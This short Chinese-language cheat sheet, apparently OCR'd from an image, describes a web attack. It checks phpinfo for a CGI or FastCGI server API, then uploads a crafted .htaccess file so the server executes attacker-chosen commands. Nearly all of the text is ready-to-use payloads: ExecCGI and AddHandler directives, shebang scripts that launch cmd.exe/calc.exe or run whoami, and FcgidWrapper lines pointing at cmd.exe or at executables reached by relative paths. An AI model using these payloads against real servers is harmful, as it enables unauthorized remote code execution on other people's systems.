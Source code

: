 	phpinfo中搜索server api是cgi或者fastcgi
	如果是cgi模式:上传如下htaccess
	Options ExecCGI
	AddHandler cgi-script .xx
	windows平台
	#!C:/Windows/System32/cmd.exe /c start calc.exe
	1
	linux平台
	#!/bin/bash
	echo -ne "Content-Type: text:html\n\n"
	whoami
	如果是fast_cgi，上传如下htaccess
	Options +ExecCGI
	AddHandler fcgid-script .abc
	FcgidWrapper "C:/Windows/System32/cmd.exe /c start cmd.exe" .abc
	上传任意文件.abc
	相对路径
	AddHandler fcgid-script .html
	FcgidWrapper "../../php/php7.3.4nts/php-cgi.exe" .html

	AddHandler fcgid-script .xx
	FcgidWrapper "../../../WWW/localhost/calc.exe" .xx